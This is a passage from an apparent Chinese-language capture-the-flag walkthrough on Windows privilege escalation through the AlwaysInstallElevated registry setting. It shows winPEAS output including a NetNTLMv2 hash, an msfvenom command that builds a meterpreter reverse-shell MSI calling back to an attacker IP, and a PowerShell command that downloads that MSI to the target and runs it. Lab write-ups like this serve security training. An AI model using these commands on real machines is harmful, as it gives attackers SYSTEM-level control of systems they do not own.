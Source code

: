 从远程服务器下载一个名为winPEASx64.exe的文件，并将其保存到本地的c:\Users\Phoebe\Downloads目录下。

## 注册表提权

> 找到alwaysinstallelevated，即当注册表中的alwaysinstallelevated设置为1时，机器上运行任何的msi程序，均会以system权限执行，我们只需生成一个msi的木马程序即可提权。

执行winpeas以后发现HKLM和HKCU的值都是1

```
...snip...
Checking AlwaysInstallElevated
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

Logged users
    LOVEAdministrator
    LOVEPhoebe

Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    Phoebe::LOVE:1122334455667788:20e51a8d32d4b2d85ee8d1f16d856ae2:0101000000000000cdcd241cb38bd701ba60ebea1234fc78000000000800300030000000000000000000000000200000c7feb52a9af533c44a1a9653e8d52b6cd2d9a8def4c45c6cb0ba513521461eb60a00100000000000000000000000000000000000090000000000000000000000
...snip...
```

从得到的信息中可以看到 AlwaysInstallElevated 是开启的，简单的注册表提权了。这种情下，我们可以生成一个包含反向 Shell 的恶意 MSI 文件,意味着我们可以使用注册表提权（Registry Escalation）.

> MSI 文件是用于安装应用程序的软件包文件。这些文件在尝试安装它们的用户权限下运行。Windows 允许这些安装程序以提升的（即 admin）特权运行。

编译一个反弹shell的msi文件

```
root@kali# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

传到靶机

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.4/setup.msi','c:\Users\Phoebe\Downloads\setup.msi')"
```

执行msi文件

```
c:\Users\Phoebe\Downloads>.\setup.msi
.\setup.msi
```
